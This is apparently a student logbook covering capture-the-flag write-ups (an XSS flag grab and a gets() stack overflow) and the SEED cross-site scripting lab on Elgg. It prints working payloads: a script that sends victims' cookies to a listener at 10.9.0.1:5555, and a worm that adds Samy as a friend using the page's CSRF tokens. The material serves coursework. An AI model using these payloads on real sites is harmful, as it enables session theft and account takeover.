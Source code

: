 This logbook is divided into 2 sections, one referring to the CTF - week 10, and another concerning the tasks for week 10.

# CTF - Week 10

## Challenge 1

For this challenge, we needed to make a request to the administrator to give access to the flag. For that, we started by checking what happened when a request was made by typing the string *"flag"* and we concluded that it appeared a page with two disabled buttons, as seen in the picture below:

![challenge1_1](LOGBOOK_screenshots/LOGBOOK10/challenge1_1.png)

Then, we tried to see what would happen when we would type some HTML code. For that, we typed:

```html
<button onclick="myFunction()">Click me</button>
```
And the result was as seen in the picture:

![challenge1_2](LOGBOOK_screenshots/LOGBOOK10/challenge1_2.png)

With this, we concluded that there existed a cross-site scripting vulnerability and to take advantage of that, we inspected the page to see the button id. We concluded it was *giveflag*:

![challenge1_3](LOGBOOK_screenshots/LOGBOOK10/challenge1_3.png)

Having that, we could write code to click the disabled button. For that, we typed:

```html
<script> document.getElementById("giveflag").click();</script>
```

After some time waiting for an answer, we were able to get the flag.

![challenge1_4](LOGBOOK_screenshots/LOGBOOK10/challenge1_4.png)


## Challenge 2

We started this challenge by running checksec:

![challenge2_1](LOGBOOK_screenshots/LOGBOOK10/challenge2_1.png)

After running checksec we concluded that there is not a mitigation that makes some read-only addresses of some functions defined at the executable's startup (RELRO), there is not a canary protecting the return address (Stack), the stack has execute permission (NX) and the binary positions are randomized (PIE).

Then, we analysed the given code. In there we could see that it was used a *gets* function which is unsafe once it can read a number of bytes larger than the buffer size, which can lead to a buffer overflow.

![challenge2_2](LOGBOOK_screenshots/LOGBOOK10/challenge2_2.png)

For that, we needed to check the offset between the buffer address and the return address. For that we run gdb:

![challenge2_3](LOGBOOK_screenshots/LOGBOOK10/challenge2_3.png)

With that we could calculate the offset: ```0xffa70758 - 0xffa706f0 = 104```. This means that we were able to create code to get the flag for this challenge:

![challenge2_4](LOGBOOK_screenshots/LOGBOOK10/challenge2_4.png)

By running this code we were able to open a shell and with the command *ls* we saw that there was the *flag.txt* file. By using the command *cat* we were able to see it's content and get the flag:

![challenge2_5](LOGBOOK_screenshots/LOGBOOK10/challenge2_5.png)

____
____

# Cross-Site Scripting (XSS) Attack Lab

## Task 1: Posting a Malicious Message to Display an Alert Window

During this task, we needed to embed a JavaScript program in a profile, such that when another user viewed its profile, an alert window would appear. We chose Alice's Profile. For that we clicked on the option to edit the profile and in the brief description, we added the following code:
```js
<script>
    alert("XSS");
</script> 
```
After that, from another user's profile, when clicking on Alice's profile we would see a pop-up window with the message *XSS*, as we can see in the picture below:

![task1](LOGBOOK_screenshots/LOGBOOK10/task1.png)

## Task 2: Posting a Malicious Message to Display Cookies

The goal for this task was to embed a JavaScript program in a profile, such that when the user viewed their own profile, an alert window would appear with the user's cookies. For that we changed the code inserted in the brief description to:

```js
<script>
    alert(document.cookie);
</script>
```

After that, logged into Alice profile, on her profile page, we would see a pop-up window with the message with the cookies, as we can see in the picture below:

![task2](LOGBOOK_screenshots/LOGBOOK10/task2.png)

##  Task 3: Stealing Cookies from the Victim's Machine

In this task, the goal was to use the JavaScript code to send cookies to another profile. In this case, Alice was the attacker and she would be able to see other's cookies. For that, we changed the code in the brief description to:
```js
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```
We can see the result when we used the *netcat* program in the picture below:

![task3](LOGBOOK_screenshots/LOGBOOK10/task3.png)


## Task 4: Becoming the Victim's Friend

The goal for task 4 was to perform an attack that would write an XSS worm that added Samy as a friend to any other user that would visit Samy's page. For that, we started by seeing what happened when a friend request was sent.

![task4_1](LOGBOOK_screenshots/LOGBOOK10/task4_1.png)

We concluded that the friend id, the variables *__elgg_ts* and *__elgg_token* and the cookies were sent to the server in every friend request. 

Then, it was needed to add in the *"About Me"* field (using Edit HTML option), the JavaScript program to send out the HTTP request to add a friend.

```js
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;

  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the HTTP request to add Samy as a friend.
  var sendurl= "http://www.seed-server.com/action/friends/add" + "?friend=59" + token + ts;
  
  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
</script>
```
After that, we checked that in other users' profiles we were able to add Samy as friend only by seeing his profile.

![task4_2](LOGBOOK_screenshots/LOGBOOK10/task4_2.png)

#### **Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?**

Lines 1 and 2 get the values of the *__elgg_ts* and *__elgg_token* variables. These values are used against Cross Site Request Forgery attacks. The values change every time a page is loaded, so they need to be accessed every time.

#### **Question 2:  If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?**
No, if the application only provided the Editor mode, the attack would not be successful since this mode adds extra HTML and some symbols change.
